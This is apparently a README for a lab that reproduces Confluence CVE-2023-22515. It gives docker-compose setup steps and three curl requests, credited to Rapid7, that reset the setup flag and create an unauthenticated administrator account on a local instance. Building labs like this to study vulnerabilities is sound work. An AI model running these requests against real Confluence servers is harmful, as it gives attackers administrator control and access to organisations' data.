

# Confluence CVE-2023-22515 OGNL vulnerability

This vulnerability affects Confluence Server and Confluence Data Center. It allows an unauthenticated attacker to create an administrator Confluence user.

Credits for the proof-of-concept fully go to Rapid7: https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis


## Running the application

Run it:

```
docker-compose up
```

It takes a few minutes to start up. When you see the line `Server startup in [xx] milliseconds` in the logs:

1. Browse to http://localhost:8090
2. Get a trial license (this won't work without one)
3. It'll take a while to configure, make sure you have 3-4 GB of RAM
4. Start with an "Empty Site"
5. Click on "Manager users and groups in Confluence"
6. Set a sample administrator username and password

## Exploitation steps

Taken from https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis

```
curl -vk "http://localhost:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false"

curl -vk -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=malicious-user&fullName=malicious&email=malicious%40localhost&password=malicious&confirm=malicious&setup-next-button=Next" http://localhost:8090/setup/setupadministrator.action

curl -vk -X POST -H "X-Atlassian-Token: no-check" http://localhost:8090/setup/finishsetup.action
```

After that, browse to the [list of users](http://localhost:8090/admin/users/showallusers.action?reset=true) and you'll notice that a new, malicious user has been created:

